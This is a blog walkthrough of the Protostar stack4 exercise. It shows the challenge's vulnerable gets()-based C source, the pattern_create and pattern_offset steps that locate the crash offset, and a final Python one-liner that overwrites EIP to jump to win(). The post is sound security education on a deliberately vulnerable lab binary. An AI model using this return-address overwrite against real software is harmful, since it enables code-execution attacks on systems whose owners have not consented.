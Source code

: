 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Exploiting EIP - protostar stack4
categories: binary-exploitation
image: binary-exploitation/BOF4/0.png
---
```


<hr>
### Introduction
#### Hey again ,Today's article is going to be short. So last time I solved stack3 , I'm back again and today I'm going to solve stack4 which is really interesting , it's slightly different from stack3 but that difference is a new thing to see if we compare it to the previous challenges. So let's not talk too much and jump right in.
#### Read my [other articles about buffer overflow](/categories)
![](/images/binary-exploitation/BOF4/0.png)
<hr>
### ./stack4
#### Let's take a look at the source code first :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### Very simple ! it defines the `win` function then defines the `main` function which sets a buffer of 64 chars and stores our input in it. But wait a second where is the variable that we're gonna overwrite ? in the previous challenges we had a variable that is being used by a function to change the code flow , now what will we overwrite ?
#### The answer is the `EIP` which is the instruction pointer. And the instruction pointer is a memory address that holds the address of the next instruction in the program during execution. So if we overwrite that address the program will execute whatever that address refers to. let's try to exceed the buffer.
`python -c "print 'A' * 64"`
![](/images/binary-exploitation/BOF4/1.png)
#### The program didn't even crash ... why ? Because the return address is not directly after the buffer like in the previous challenges , Let's try 100 chars 
`python -c "print 'A' * 100"`
![](/images/binary-exploitation/BOF4/2.png)
#### The program crashed , Let's find where does it exactly crash like we did in the [previous challenge](/binary-exploitation/bof3) read it if you haven't done yet.
#### We will create a pattern with `pattern_create`
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF4/3.png)
#### Then we will pass it to the program in gdb 
![](/images/binary-exploitation/BOF4/4.png)
#### It crashes at `0x63413563`
#### We locate that with pattern_offset
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF4/5.png)
#### We get exact match at offset 76
#### Next step is to find the address of `win()` 
`objdump -d`
![](/images/binary-exploitation/BOF4/6.png)
#### The address is `0x080483f4`
#### Now we can build our exploit : 
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4`
![](/images/binary-exploitation/BOF4/7.png)
#### And we successfully changed the code flow !
<br>
#### That's it , feedback is appreciated.
#### Thanks for reading !
<hr>
